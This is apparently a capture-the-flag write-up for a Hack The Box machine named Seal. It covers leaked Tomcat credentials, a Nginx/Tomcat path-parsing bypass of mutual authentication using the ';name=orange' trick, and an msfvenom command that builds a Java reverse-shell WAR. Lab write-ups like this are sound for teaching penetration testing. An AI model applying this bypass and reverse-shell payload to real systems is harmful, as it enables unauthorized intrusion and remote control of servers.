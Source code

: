 ### Enum
Register the git bucket and review the codes
```html
<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>
<!--
		  <role rolename="tomcat"/>
		  <role rolename="role1"/>
		  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
		  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
		  <user username="role1" password="<must-be-changed>" roles="role1"/>
		-->
		```

		s3cret


	## ToDo
		* Remove mutual authentication, setup registraion and login 
		* Deploy updated tomcat configuration
		* Disable manager and host-manager
		

Tho, `seal.htb/manager` won't work directly even I gave it correct creds. Other methods failed too.

Let's google about `Exploit Tomcat Nginx mutual authentication` since we saw it's Nginx + Tomcat.

### Blackhat!
* https://www.google.com/search?client=firefox-b-d&q=Exploit+Tomcat+Nginx+mutual+authentication
* https://rioasmara.com/2022/03/21/nginx-and-tomcat-mutual-auth-bypass/
* https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf


I would like to share a common mistake on Nginx configuration which could lead to authentication bypass. We are going to try to bypass Nginx mutual authentication

Below is the Nginx configuration that we are going to explore for exploitation. We can see from the above configuration that accessing `/manager/html`, `/admin/dashboard` and `/host-manager/html` would go to the mutual authentication check first. if the client does not provide the required certificate then error 403 will be returned.

view-source:https://10.129.95.190/admin/dashboards
```html
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

Based on the research from this blackhat 

* https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf 

that the two server (Nginx and Tomcat) will parse the http request differently thus lead to the known behaviour as below list. From page 42/87.

I can't believe how easy it is `https://10.129.95.190/manager;name=orange/html/`

### Hacktricks too
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#path-traversal-..
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell

```bash
msfvenom -p java/shell_reverse_tcp LHOST=tun0 LPORT=80 -f war -o shell.war
```